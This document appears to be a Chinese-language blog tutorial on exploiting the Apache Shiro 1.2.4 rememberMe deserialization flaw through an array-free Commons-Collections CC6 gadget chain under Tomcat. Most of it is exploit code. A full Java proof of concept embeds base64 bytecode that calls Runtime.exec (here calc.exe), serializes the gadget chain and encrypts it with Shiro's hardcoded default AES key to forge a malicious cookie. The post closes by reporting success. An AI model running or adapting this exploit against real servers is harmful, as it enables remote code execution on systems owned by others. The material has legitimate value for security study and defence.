


这里我们使用CC链来攻击Shiro 1.2.4
> 为了让浏览器或服务器重 启后用户不丢失登录状态，Shiro支持将持久化信息序列化并加密后保存在Cookie的rememberMe字 段中，下次读取时进行解密再反序列化。但是在Shiro 1.2.4版本之前内置了一个默认且固定的加密 Key，导致攻击者可以伪造任意的rememberMe Cookie，进而触发反序列化漏洞。

所以我们可以通过rememberMe来注入序列化数据<br />将序列化数据加密的过程如下
```java
// 序列化
ByteArrayOutputStream bo = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bo);
oos.writeObject(expMap);
oos.close();
// 加密
AesCipherService aes = new AesCipherService();
byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
ByteSource ciphertext = aes.encrypt(bo.toByteArray(), key);
System.out.printf(ciphertext.toString());
```
我们试着使用CC6通杀链来打Shiro 1.2.4<br /><br />但会发现无法加载相关的类<br /><br />我们来看看是怎么回事<br />我们来看看最后一行的org.apache.shiro.io.ClassResolvingObjectInputStream类<br /><br />其中有一个resolveClass方法，重写了java.io.ObjectInputStream的resolveClass<br />我们看一下两者的差别
```java
protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
    try {
        return ClassUtils.forName(osc.getName());
    } catch (UnknownClassException var3) {
        throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", var3);
    }
}
```
```java
protected Class<?> resolveClass(ObjectStreamClass desc)
    throws IOException, ClassNotFoundException
{
    String name = desc.getName();
    try {
        return Class.forName(name, false, latestUserDefinedLoader());
    } catch (ClassNotFoundException ex) {
        Class<?> cl = primClasses.get(name);
        if (cl != null) {
            return cl;
        } else {
            throw ex;
        }
    }
}
```
可以发现ClassResolvingObjectInputStream#resolveClass调用的是ClassUtils#forName,实际上调用的是org.apache.catalina.loader.ParallelWebappClassLoader#loadClass <br />而原生resolveClass调用的是Class.forName<br />我们下一个断点，来看看出了什么情况<br /><br />可以看到返回的ClassLoader是ParallelWebappClassLoader<br /><br />然后开始加载这个类<br /><br />但是实际上调用的是ParallelWebappClassLoader时如果无法在JAVA内部类中寻找到所需寻找的类，则会调用其父类URLClassLoader，而会将Lorg.apache.commons.collections.Transformer作为PATH，而全面因为为数组多了一个L自然就无法找到Transformer类（雾<br />
:::tips
所以可以得出结论：<br />在Tomcat环境下org.apache.catalina.loader.ParallelWebappClassLoader#loadClass无法接收外部类的数组
:::
这时我们就需要考虑如何不使用数组来成功调用obj.newTransformer()<br />其实，在CC6中的TiedMapEntry类中我忽视了它key这个变量
```java
public TiedMapEntry(Map map, Object key) {
    this.map = map;
    this.key = key;
}
```
因为我们可以发现InvokerTransformer类的transform方法会接受一个input对象<br />并执行其中的方法
```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
我们可以直接将Templates对象传入key中从而传入input
```java
public Object get(Object key) {
    if (!super.map.containsKey(key)) {
        Object value = this.factory.transform(key);
        super.map.put(key, value);
        return value;
    } else {
        return super.map.get(key);
    }
}
```
构造POC之前，要注意先写一个fakerTransformer类，防止在生成时触发，导致报错从而无法生成序列化数据
```java
Transformer transformer = new InvokerTransformer("getClass", null, null);
```
之后再将iMethodName替换
```java
setFieldValue(transformer, "iMethodName", "newTransformer");
```
最终可以构造POC
```java
package com.example.demo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
import java.util.Properties;

public class CC6WithShiro {
    public static void main(String[] args) throws Exception {
        // 执行类
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAcDAAdAB4BAAhjYWxjLmV4ZQwAHwAgAQASSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAJAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAADAALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAAPAAQAEAANABEACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_class", null);
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(obj, "_outputProperties", new Properties());
//        Transformer fakeTransformer = new InvokerTransformer("getClass", null, null);
        Transformer transformer = new InvokerTransformer("getClass", null, null);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);
        TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.clear();
        setFieldValue(transformer, "iMethodName", "newTransformer");
//        setFieldValue(fakeTransformer, "iTransformers", transformer);
        // 序列化
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bo);
        oos.writeObject(expMap);
        oos.close();
        // 加密
        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(bo.toByteArray(), key);
        System.out.printf(ciphertext.toString());
//        bo.close();
//        System.out.println(bo);
        // 反序列化
//        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bo.toByteArray()));
//        Object ob = (Object) ois.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}

```
成功打入<br />
